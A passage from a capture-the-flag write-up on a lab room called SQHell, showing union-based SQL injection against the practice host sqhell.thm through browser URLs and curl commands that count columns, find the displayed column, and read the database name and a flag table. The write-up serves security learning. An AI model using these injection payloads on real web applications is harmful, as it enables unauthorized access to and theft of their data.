 ```
http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag
```

![sqhell-union-flag](https://pencer.io/assets/images/2021-06-10-22-31-25.png)

We have the flag. Let’s move on to a different method.

### Flag 5 - In-Band/Union - Curl Method[Permalink](https://pencer.io/ctf/ctf-thm-sqhell/#flag-5---in-bandunion---curl-method) <a href="#flag-5---in-bandunion---curl-method" id="flag-5---in-bandunion---curl-method"></a>

I went in to detail on the last flag on using curl instead of the browser. If you can use a browser you would because it’s easier, but in case it’s not possible here’s how to do this flag using curl.

First check how many columns we have:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3,4"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3,4,5"
Unknown column '5' in 'order clause'
```

We have four columns, as before we check to see which one is useable to display the data we retrieve:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union all select 1,2,3,4" | grep -A 1 panel-body
                <div class="panel-body">
                    3                </div>
```

I use grep to filter the output down to just the body of the response. We see column three is the one to use. Let’s find the database name:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union all select 1,2,database(),4" | grep -A 1 panel-body 
                <div class="panel-body">
                    sqhell_5                </div>
```
